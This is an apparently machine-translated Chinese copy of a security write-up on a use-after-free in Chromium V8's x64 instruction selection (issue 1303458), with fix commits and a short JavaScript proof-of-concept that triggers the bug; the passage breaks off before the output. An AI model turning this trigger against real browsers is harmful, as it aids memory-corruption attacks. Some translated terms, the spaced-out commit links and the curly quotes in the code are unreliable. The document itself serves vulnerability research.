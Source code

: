 # 零日漏洞:Chromium v8 js 引擎问题 1303458 —在 x64 指令优化漏洞分析中免费使用

> 原文：<https://infosecwriteups.com/zero-day-vulnerability-chromium-v8-js-engine-issue-1303458-use-after-free-in-x64-instruction-e874419436a6?source=collection_archive---------0----------------------->

**简介**

在 Chromium v8 的 x64 平台上的指令优化中发现了 UAF 漏洞。成功利用此漏洞可能允许攻击者在浏览器环境中执行任意代码。

此漏洞发生在指令选择阶段，在此阶段选择了错误的指令，导致内存访问异常。

此次提交时修复的漏洞:

[https://chromium . Google source . com/V8/V8/+/71 a9 FCC 950 f1 b 8 efb 27543961745 ab 0262 CDA 7 c 4](https://chromium.googlesource.com/v8/v8/+/71a9fcc950f1b8efb27543961745ab0262cda7c4)

本报告使用提交:

[https://chromium . Google source . com/V8/V8/+/DC 9 ed 94 ef DAC 30 bdbe 88 e 81 f 4 cf 08783 C1 DC 952 f](https://chromium.googlesource.com/v8/v8/+/dc9ed94efdac30bdbe88e81f4cf08783c1dc952f)

**概念验证**

```
function foo() {
 const a = new Int16Array(0x10000);//step 1\. 创建一个 typed array，
 const b = a[0]!= 0; // setp 2
 %DebugPrint(a);
 for (let i = 0; i < 1; i++) {
 gc(); // step 3
 }
 if (b) { //step 4 ← — — — — — — BOOM
 print(“boom”);
 }
 }
 %PrepareFunctionForOptimization(foo);
 foo();
 foo();
 %OptimizeFunctionOnNextCall(foo);
 foo();
```

*清单 1:概念验证*

下面解释了清单 1 中所示的代码执行流程:

步骤 1:创建一个大小为 0x10000 的 Int16 类型数组

步骤 2:确定 **a[0]** 值是否不等于零，然后将结果赋给 **b**

步骤 3:然后执行垃圾收集

第四步:如果 **b** 变量为真，打印钻柱

图 1 显示了运行 PoC 代码后的输出结果:
